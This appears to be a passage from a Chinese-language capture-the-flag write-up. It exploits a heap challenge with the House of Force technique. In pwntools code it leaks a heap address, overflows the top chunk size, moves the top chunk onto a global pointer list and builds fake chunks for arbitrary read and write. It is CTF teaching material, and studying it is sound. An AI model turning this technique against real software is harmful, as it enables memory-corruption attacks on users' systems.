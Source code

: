 ### 利用：

1.  利用程序自身覆盖截断字符，泄漏堆地址：

   ```py
   # 泄漏堆地址
   p.sendafter(b'name:',b"A"*60+b"FFFF")
   p.recvuntil(b"FFFF")
   heap_addr = u32(p.recv(4))&0xffff000
   success("heap_addr ==> " + hex(heap_addr))
   top_chunk_addr = heap_addr+0xd8
   success("top_chunk_addr ==> " + hex(top_chunk_addr))
   ```

   ![image-20240729111959159](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407291119265.png)

2. 创造溢出，修改top chunk的size字段：

   ```python
   #修改top chunk大小
   payload = b"\xff"*65
   p.sendafter(b'Org:',payload)
   p.sendlineafter(b'Host:',b"\xff"*66)
   ```

   覆盖前：![image-20240729112231062](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407291122255.png)

   覆盖后：

   ![image-20240729112240325](C:\Users\BKBQWQ\AppData\Roaming\Typora\typora-user-images\image-20240729112240325.png)

3. 缩小top chunk的地址到heaplist存储堆指针的位置：

   ```python
   # 移动topchunk位置 到heaplist位置
   offset = 0x0804B120 - (top_chunk_addr)-12
   add(offset,b"a")    #0
   ```

   修改前：

   ![image-20240729112354568](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407291123683.png)

   修改后：

   ![image-20240729112607729](C:\Users\BKBQWQ\AppData\Roaming\Typora\typora-user-images\image-20240729112607729.png)

4. 修改heaplist，创建傀儡，从而实现任意地址读写（要注意利用的**相应堆的size大小不能为0**，不然写入不了数据）：

   ```python
   # 创建傀儡 chunk3
   add(8,p64(0x804b12c))   #1
   add(8,p64(0x804b130))   #2
   add(8,b"aaa")   #3
   add(4,b"aaa")   #4
   add(4,b"aaa")   #5
   debug()
   
   # 创建傀儡7，用于傀儡chunk3释放后还有傀儡任意地址写
   edit(2,p64(0x804b13c))   #创建傀儡7
   edit(3,p64(0x804b128))  
   ```
